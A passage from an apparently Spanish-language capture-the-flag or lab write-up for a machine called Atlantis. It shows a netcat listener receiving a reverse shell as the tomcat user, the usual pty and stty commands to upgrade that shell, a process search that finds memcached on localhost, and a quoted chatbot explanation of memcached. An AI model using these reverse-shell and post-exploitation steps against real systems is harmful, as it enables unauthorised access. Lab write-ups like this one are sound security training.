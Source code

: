 ![](img/Aqua/aqua3.png)

```BASH
❯ nc -lvnp 443                      
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.26] 50074
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Ahora si podemos mejorarnos la shell a una shell inteligente

```BASH
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@Atlantis:/$ ^Z
zsh: suspended  nc -lvnp 443
                                                
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443

tomcat@Atlantis:/$ export TERM=xterm SHELL=bash
```

Jugando un poco y viendo archivos dentro de la maquina encontramos un memchad

```
tomcat@Atlantis:~$ ps aux | grep -u root

tomcat@Atlantis:~$ ps aux | grep "memcached"
memcache   835  0.0  0.2 425800  3956 ?        Ssl  16:21   0:05 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
tomcat    1090  0.0  0.0  13220  1076 pts/0    S+   18:33   0:00 grep memcached
```

Le pregunte a bing chat que es memcached
```
Hola, este es Bing. Memcached es un programa que ayuda a las páginas web a funcionar más rápido y mejor. 
Imagina que tienes una caja grande donde guardas tus juguetes favoritos. 
Cada vez que quieres jugar con uno de ellos, tienes que buscarlo en la caja y sacarlo. 
Eso puede tomar mucho tiempo y ser aburrido. 
Pero si tienes una cesta pequeña donde pones los juguetes que más usas, puedes encontrarlos más rápido y fácilmente. 
Memcached hace algo parecido: guarda la información más importante de las páginas web en un lugar especial llamado memoria RAM1,
donde se puede acceder a ella rápidamente sin tener que buscarla en otro lugar2. 
Así las páginas web pueden mostrarte lo que quieres ver sin hacerte esperar mucho3. ¿Entiendes lo que es Memcached? 😊
```
